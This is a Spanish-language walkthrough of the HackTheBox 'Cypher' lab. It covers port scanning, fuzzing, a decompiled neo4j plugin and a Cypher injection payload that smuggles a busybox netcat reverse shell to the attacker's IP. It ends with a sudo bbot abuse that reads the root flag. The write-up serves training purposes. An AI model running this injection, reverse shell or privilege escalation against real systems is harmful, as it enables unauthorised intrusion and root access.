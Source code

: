 ```yaml
---
title: Cypher - HackTheBox Season 7
date: 2025-03-09 11:00:00 +0000
layout: post
permalink: /writeups/HTB/LABS/cypher-htb-season7
categories: [HacktheBox, Labs]
image:
  path: /assets/img/writeups/hackthebox/cypher_htb_s7/cypher.png
  alt: HackTheBox
description: >
  Guía en español para Cypher - HackTheBox Season 7
pin: false  
toc: true   
math: false 
mermaid: false 
---
```


## Escaneo de puertos

```bash
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-05 20:19 CET
Nmap scan report for cypher.htb (10.10.11.57)
Host is up (0.11s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 be:68:db:82:8e:63:32:45:54:46:b7:08:7b:3b:52:b0 (ECDSA)
|_  256 e5:5b:34:f5:54:43:93:f8:7e:b6:69:4c:ac:d6:3d:23 (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-server-header: nginx/1.24.0 (Ubuntu)
OS fingerprint not ideal because: Didn't receive UDP response. Please try again with -sSU
No OS matches for host
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Puerto web 

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image.png)

En el portal web encontramos lo que parece una aplicación que utiliza grafos para mostrar la información sobre la superficie de ataque de un objetivo o empresa.

Si hacemos click en probar el demo nos redirige a un portal para iniciar sesión.

Probando inyección básica para probar el login vemos lo siguiente:

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image-1.png)

Vemos que efectivamente tenemos posibilidad de inyectar comandos en el portal web pero la base de datos (como era de esperar por la naturaleza de la aplicación) es de tipo NOSQL, es neo4j y se basa en bases de datos para grafos.

Tras un rato probando direntes inyecciones de tipo cypher no conseguí nada efectivo.

[Cypher inyections cheatsheet](https://pentester.land/blog/cypher-injection-cheatsheet/)

## Fuzzing de directorios 

Mientras tanto realizamos un fuzzing de directorios sobre la web y por suerte encontramos una ruta que parece ser interesante.

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image-2.png)

Dentro encontramos un archivo `.jar` con nombre apoc-extensión que puede ser potencialemente valioso ya que se trata de una extensión utilizada por neo4j.

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image-3.png)

Al abirlo en un decodificador online de jar encontramos que efectivamente se trata de un plugin para la base de datos neo4j.

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image-4.png)

Dentro del código vemos una clase interesante que añade una función para hacer petciones HTTP y devuelve el estado de la misma.

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image-5.png)

## Inyección cypher en neo4j

Para hacer uso de esta función customizada en la base de datos necesitamos llamarla con el prefijo `custom.` y el nombre de la función, pero antes debemos fijarnos en como toma el valor del nombre de usuario la base de datos y para esto podemos servirnos del error obtenido en Burp.

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image-6.png)

Sabiendo que esto es así podemos crear el payload de inyección y probarlo.

```bash
a' return h.value as a UNION CALL custom.getUrlStatusCode("http://10.10.16.73:80;busybox nc 10.10.16.73 4444 -e /bin/bash;#") YIELD statusCode AS a RETURN a;//
```

Utilizamos la revshell con busybox ya que parece que el sistema no tiene nc por defecto o no lo tiene referenciado en el PATH.

> Dato : busybox es un binario multi-herramienta común en sistemas embebidos o con recursos limitados. Muchas distribuciones minimalistas (como routers, IoT o contenedores) no incluyen nc independiente, pero sí busybox, que integra nc entre otras utilidades.
{: .prompt-info}

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image-7.png)

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image-8.png)

Ahora tenemos acceso a la maquina como el usuario neo4j.

Tras un rato mirando archivos encontramos algo interesante, unas credenciales de acceso.

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image-9.png)

> Nota : Este usuario no tiene privilegios para acceder a la user flag.
{: .prompt-warning}

## Acceso como usuario

Probando las credenciales encontradas con el usuario `graphasm` por ssh tenemos acceso a la maquina.

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image-10.png)

### User flag

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image-11.png)

## Escalada de privilegios

Haciendo una comprobación básica de permisos sudo vemos que tiene permisos root en la ejecución de cun binario llamado `bbot`.

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image-12.png)

[BBot Github](https://github.com/blacklanternsecurity/bbot)

Parece que BBot es una herramienta de reoconocimiento automatizada para la exploración de vulnerabilidades en aplicaciones web.

En la wiki buscando que módulos tiene que puedan ser útiles encontramos las yara rules.

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image-13.png)

Esto nos permite cargar reglas yara para buscar en el código de la aplicación web. 

El plan es indicar que la flag como root.txt es un fichero de reglas yara para que este lo cargue ya que tiene privilegios root.

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image-14.png)

Parece que carga los datos del fichero pero no muestra nada de las reglas.

Buscando más información en los parámetros de uso de BBot encontramos un parámetro llamado `-d` que basicamente es igual a un clásico `--verbose`.

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image-15.png)

Esto nos mostrará más información en el proceso de carga de las reglas.

> Nota : El parámetro marcado con una flecha no lo usé pero es muy útil ya que para el escaneo antes de ser ejecutado pero siempre podemos pararlo manualmente con Ctrl+C.
{: .prompt-info}

Si ahora ejecutamos el comando con el parámetro `-d` podemos ver que se está cargando el archivo de la flag como una regla yara y muestra el contenido de la misma.

```bash
sudo /usr/local/bin/bbot -cy /root/root.txt -d
```
### Root flag

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image-16.png)
